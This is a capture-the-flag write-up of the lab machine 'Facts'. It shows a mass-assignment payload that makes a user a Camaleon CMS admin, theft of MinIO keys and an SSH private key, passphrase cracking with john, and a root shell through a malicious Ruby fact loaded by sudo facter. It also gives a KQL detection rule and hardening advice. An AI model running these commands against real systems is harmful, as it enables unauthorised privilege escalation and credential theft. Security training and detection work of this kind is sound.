# Facts 


```
Difficulty: Easy
Operating System: Linux
Hints: True

```

> Target: `facts.htb` (add to `/etc/hosts` with the target IP)

## Summary of Attack Chain

| Step | User / Access         | Technique Used                                 | Result                                                                                       |
| :--: | :-------------------- | :--------------------------------------------- | :------------------------------------------------------------------------------------------- |
|   1  | N/A (Unauthenticated) | **Network scanning (nmap)**                    | Identified open services `22/tcp` (SSH) and `80/tcp` (HTTP); HTTP redirected to `facts.htb`. |
|   2  | N/A (Web access)      | **Web reconnaissance & directory enumeration** | Discovered **Camaleon CMS** and `/admin` endpoint; registered a low-privileged user.         |
|   3  | Authenticated user    | **HTTP parameter pollution / mass assignment** | Injected `&password[role]=admin`, escalating privileges to CMS administrator.                |
|   4  | Administrator         | **Sensitive information disclosure**           | Retrieved **MinIO S3 access and secret keys** from Admin configuration.                      |
|   5  | Administrator         | **Cloud storage exfiltration (MinIO)**         | Synced time to bypass auth checks and downloaded encrypted SSH key from hidden bucket.       |
|   6  | Attacker              | **SSH key cracking**                           | Converted key with `ssh2john` and cracked passphrase (`dragonballz`).                        |
|   7  | trivia (SSH access)   | **Initial foothold (SSH)**                     | Logged in via SSH and retrieved **user.txt**.                                                |
|   8  | trivia                | **Sudo enumeration**                           | Identified passwordless execution of `/usr/bin/facter` as root.                              |
|   9  | trivia                | **Facter custom directory injection**          | Planted malicious Ruby fact to execute a shell when loaded.                                  |
|  10  | Root                  | **Privilege escalation (sudo abuse)**          | Executed `sudo facter --custom-dir=/tmp/piv` to spawn a root shell.                          |
|  11  | Root                  | **Flag capture**                               | Retrieved **root.txt** from `/root/root.txt`.                                                |




## Reconnaissance & Enumeration

The attack begins with identifying the target's surface area.

### 1. Network Scanning

An initial Nmap scan reveals two open ports. The redirection on port 80 suggests we need to update our `/etc/hosts` file to resolve `facts.htb`.


```bash
# Nmap output summary
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p1
80/tcp open  http    nginx 1.26.3

```

[Scan Results](https://raw.githubusercontent.com/0x0z0n/Blog/refs/heads/main/posts/Facts/nmap_results.nmap "Nmap Results")


### 2. Directory Brute Forcing

DirBuster reveals a massive list of potential administrative endpoints. The presence of `/assets/camaleon_cms/` identifies the underlying technology: **Camaleon CMS**, a Ruby on Rails-based content management system.

* **Key Finding:** Multiple login and registration pages are available under `/admin/`.
* **Action:** Register a standard account to access the user-level dashboard and begin testing for logical flaws.

[Directory Brute Force](https://raw.githubusercontent.com/0x0z0n/Blog/refs/heads/main/posts/Facts/admin_dir "Identified Directories/Files")


## 3. Web Exploitation (Privilege Escalation)

Once logged in as a standard user, we look for ways to manipulate account permissions.



### 1. Identifying the HPP Vulnerability

The "Edit Profile" page allows users to change their passwords. By analyzing the request, we see parameters structured like `password[new_password]`. This is a classic indicator that the application might be vulnerable to **HTTP Parameter Pollution (HPP)** or **Mass Assignment**.

### 2. Escalating to Admin

By appending `&password[role]=admin` to the password change request, we attempt to overwrite our database record's role attribute.

1. **Access the Admin Panel**
   - Navigate to `http://facts.htb/admin/profile/edit`.
   - Click the "Change Password" button.
   

   1. **Intercept** the request in Burp Suite.
   2. **Inject** the payload. `&password%5Brole%5D=admin`
   3. **Refresh** the browser to reveal the restricted **Admin Settings** menu.


2. **Parameter Pollution Attack**

   - In the intercepted request body, append the following parameter to the end:
     ```text
     &password[role]=admin
     ```

     


   - **Forward** the request.
   - Refresh the page. You should now see the **Admin** menu in the navigation bar.

   

3. **Retrieve MinIO Credentials**
   - Navigate to **Settings -> General Site -> File System settings**.
   - Locate and copy the **Access Key** and **Secret Key**.

   

## MinIO Exfiltration

*Note: The MinIO client is named `./mcli` in this environment to avoid conflicts with Midnight Commander.*

### 1. Fix Time Skew (Critical)

MinIO authentication will fail if your local clock does not match the server's clock.

```bash
# 1. Check the server time
curl -I http://facts.htb:54321

# 2. Set your local time to match the "Date" header from the output above
# Example: sudo date -s "Sun, 01 Feb 2026 07:45:00 GMT"
```

### 2. Configure Client & Download Keys

Use the mcli binary to connect and download the SSH key. Note that we use cp (copy), not get.


```bash
# 1. Set the alias
./mcli alias set facts http://facts.htb:54321 <ACCESS_KEY> <SECRET_KEY>

# 2. List files to verify access
./mcli ls -r facts/

# 3. Download the SSH private key
./mcli cp facts/internal/.ssh/id_ed25519 .
```



[S3 Listing](https://raw.githubusercontent.com/0x0z0n/Blog/refs/heads/main/posts/Facts/facts.txt "S3 Bucket files list")





## Cracking & Initial Access

The downloaded SSH key is encrypted with a passphrase. We must crack it.

1. Crack the Passphrase

```bash
# Convert the key to a hash format John understands
ssh2john id_ed25519 > id.hash

# Crack the hash using rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id.hash
Result: dragonballz
```



2. SSH Login

The key belongs to the user trivia.



```bash
# 1. Fix key permissions (Required)
chmod 600 id_ed25519

# 2. Login
ssh -i id_ed25519 trivia@facts.htb
```



```bash
# User Flag
cat /home/william/user.txt
```



## Root Privilege Escalation

### 1. Enumeration : Check for sudo privileges:

```bash
sudo -l
```
Output:

```Plaintext
User trivia may run the following commands on facts:
(ALL) NOPASSWD: /usr/bin/facter
```




### 2. Exploit facter
facter allows executing custom scripts from a specific directory. We can create a Ruby script to spawn a shell.

```bash
# 1. Create a directory for our payload
mkdir /tmp/piv

# 2. Create the malicious Ruby script
# This tells Ruby to replace the current process with a system shell
echo 'exec "/bin/sh"' > /tmp/piv/exploit.rb

# 3. Run facter as root, pointing to our custom directory
sudo /usr/bin/facter --custom-dir=/tmp/piv
```


### 3. Capture Flags

You should now have a root shell (#).

```bash
# Root Flag
cat /root/root.txt
```



# Facts: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** Full-stack compromise chain leveraging Application Logic Flaws (Mass Assignment) and Misconfigured Identity & Access Management (IAM) to achieve Infrastructure Privilege Escalation.
* **1.2 Impact:** **Complete System Integrity Loss**. The adversary leverages a web application vulnerability to harvest cloud storage credentials, pivoting to local infrastructure access and ultimately achieving Root via sudo misconfiguration.
* **1.3 The Scenario:** An unauthenticated adversary identifies a Ruby on Rails CMS (Camaleon). By exploiting an unsecured object binding (Mass Assignment), they escalate to Administrator, extract MinIO keys, and leverage these to retrieve SSH credentials. Final administrative control is achieved by abusing the `facter` utility's custom directory loading mechanism.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Presentation Layer:** Nginx (Reverse Proxy) / Camaleon CMS (Ruby on Rails).
* **Storage Layer:** MinIO (S3-compatible Object Storage).
* **Management Layer:** SSH (OpenSSH 9.9p1) & System Administration Utilities (`facter`).


* **2.2 Attack Logic Flow:**
> [Public HTTP 80] -> [Rails Mass Assignment (HPP)] -> [CMS Admin Access] -> [MinIO Credential Theft] -> [S3 Data Exfiltration] -> [SSH Access] -> [Sudo Token Abuse] -> [Root]


* **2.3 Theoretical Analogy:** The attacker bypasses the front reception by forging a "VIP" badge request (Mass Assignment). Once inside, they find the keys to the archival vault (MinIO), steal a janitor's key ring (SSH Key), and finally use a legitimate maintenance tool (`facter`) in an unauthorized way to unlock the CEO's office.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                          |
| :---------------------- | :----------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | **Camaleon CMS**, **MinIO (S3-compatible API)**, `facter` binary.                                                                          |
| **Critical Weakness**   | **Mass assignment vulnerability** (CVE-2012-2661–style logic flaw) combined with **insecure sudo configuration** (`NOPASSWD`).             |
| **Offensive Technique** | Unauthorized parameter injection during POST updates, followed by execution of attacker-controlled Ruby code via a trusted system utility. |


### Prerequisites

* **Access Level:** Public network access to HTTP/80. Standard user registration capability.
* **Connectivity:** TCP 80 (HTTP), TCP 22 (SSH), TCP 54321 (MinIO/S3).
* **Target State:** `facter` utility permitted in `sudoers` with `NOPASSWD` and no argument restrictions.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries exploiting Mass Assignment will create HTTP POST requests containing parameters not present in the standard UI DOM (e.g., `role`, `admin`, `permissions`). Subsequent privilege escalation will manifest as `sudo` execution of non-standard binaries (`facter`) referencing world-writable directories (`/tmp`, `/dev/shm`).
* **Behavioral Outliers:**
* **Web Layer:** A user profile update request containing privilege-related keys (`role=admin`) is a deterministic indicator of compromise.
* **System Layer:** The execution of `facter` with the `--custom-dir` flag pointing to temporary file systems constitutes high-fidelity suspicious behavior.


* **Toxic Combinations:** The presence of hardcoded IAM keys (Access/Secret) within the application file system configuration, combined with public S3 buckets, creates an immediate lateral movement path.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **WAF/Web Logs:** Capture of HTTP POST Body parameters (detecting `password[role]`).
* **Endpoint:** Process Command Line auditing (Event ID 4688 / Sysmon 1) to catch `sudo facter --custom-dir`.
* **S3 Logs:** Anomalous `GetObject` operations on `.ssh` directories or private keys.


* **Detection-as-Code (KQL):**

```kql
// Detect Suspicious Facter Execution via Sudo
// Trigger: High Severity
SecurityEvent
| where EventID == 4688
| where ProcessName endswith "facter"
// Detect usage of custom directory flag pointing to risky paths
| where CommandLine contains "--custom-dir" or CommandLine contains "-d"
| where CommandLine contains "/tmp" or CommandLine contains "/dev/shm" or CommandLine contains "/var/tmp"
| where ParentProcessName endswith "sudo"
| project TimeGenerated, Account, Computer, CommandLine, ParentProcessName

```

* **Resilience Test:**
* **Bypass:** The adversary might place the malicious Ruby script in a user-owned directory that looks legitimate (e.g., `/home/user/.cache`) to evade the `/tmp` string detection.
* **Sub-Rule Countermeasure:** Monitor for `facter` spawning child processes like `sh`, `bash`, or `ruby` regardless of the directory arguments.


## Toolkit & Implementation

* **Automation:**
* `Burp Suite` / `Zap Proxy`: Interception and parameter injection.
* `mcli` (MinIO Client): Interaction with S3-compatible storage.
* `John the Ripper` (`ssh2john`): Offline credential cracking.


* **OPSEC Analysis:**
* **Web:** The Mass Assignment attack is low-noise and logged only as a standard POST request unless specific parameter auditing is enabled.
* **System:** The `facter` exploit is "Living off the Land" (LotL). It uses installed system binaries, avoiding binary drops that trigger AV, though the creation of `.rb` files in `/tmp` is a weak point.


* **Post-Exploitation:** Root access allows for persistence via SSH authorized_keys modification, cron jobs, or kernel module injection.


## Defensive Mitigation

* **Technical Hardening:**
* **Rails:** Implement **Strong Parameters** to strictly whitelist allowed attributes for mass assignment (`params.require(:user).permit(:password)`).
* **Sudo:** Adhere to the Principle of Least Privilege. Avoid `NOPASSWD` for binaries that allow code execution or file loading (GTFOBins). If `facter` is needed, restrict arguments using `sudoers` patterns.
* **Secrets Management:** Remove hardcoded keys from the application configuration. Use environment variables or a dedicated Secrets Manager.


* **Personnel Focus:**
* Developers must audit "Object Binding" frameworks for auto-binding vulnerabilities.
* Sysadmins must review `sudo -l` output for any binary capable of spawning shells or loading libraries.


## Quick-Action Playbook

| Step | Objective                | Technique / Command                                                    |
| :--: | :----------------------- | :--------------------------------------------------------------------- |
|   1  | **Enumerate**            | **dirsearch -u [http://facts.htb/](http://facts.htb/) -e rb,txt,json** |
|      |                          | Identified exposed endpoints and administrative interfaces.            |
|   2  | **Exploit**              | **POST parameter injection (`&password[role]=admin`)**                 |
|      |                          | Escalated CMS privileges via mass-assignment logic flaw.               |
|   3  | **Privilege Escalation** | **sudo facter --custom-dir=/tmp/exploit**                              |
|      |                          | Executed malicious Ruby fact to gain root access.                      |
